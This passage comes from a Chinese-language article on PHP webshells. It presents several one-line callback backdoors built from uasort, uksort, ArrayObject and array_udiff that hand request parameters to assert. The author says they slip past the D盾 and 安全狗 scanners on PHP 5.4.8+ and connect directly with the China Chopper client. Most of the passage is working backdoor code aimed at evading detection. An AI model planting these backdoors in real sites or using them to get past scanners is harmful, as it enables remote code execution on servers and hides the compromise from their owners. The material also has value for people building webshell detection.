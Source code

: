 依旧被D盾查杀。

果然，简单的数组回调后门，还是很容易被发现与查杀的。

0x03 php5.4.8+中的assert

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：



这就增加（改变）了一个很好的“执行代码”的方法assert，这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

比如如下回调后门：

    $e = $_REQUEST['e'];
    $arr = array('test', $_REQUEST['pass']);
    uasort($arr, base64_decode($e));

这个后门在php5.3时会报错，提示assert只能有一个参数：



php版本改作5.4后就可以执行了：


这个后门，狗和盾是都查不出来的：



同样的道理，这个也是功能类似：

    $e = $_REQUEST['e'];
    $arr = array('test' => 1, $_REQUEST['pass'] => 2);
    uksort($arr, $e);

再给出这两个函数，面向对象的方法：

// way 0

    $arr = new ArrayObject(array('test', $_REQUEST['pass']));
    $arr->uasort('assert');
 
// way 1

    $arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
    $arr->uksort('assert');

再来两个类似的回调后门：

    $e = $_REQUEST['e'];
    $arr = array(1);
    $e = $_REQUEST['e'];
    
    $arr = array($_POST['pass']);
    $arr2 = array(1);
    array_udiff($arr, $arr2, $e);

以上几个都是可以直接菜刀连接的一句话，但目标PHP版本在5.4.8及以上才可用。

我把上面几个类型归为：二参数回调函数（也就是回调函数的格式是需要两个参数的）

0x04 三参数回调函数

有些函数需要的回调函数类型比较苛刻，回调格式需要三个参数。比如array_walk。
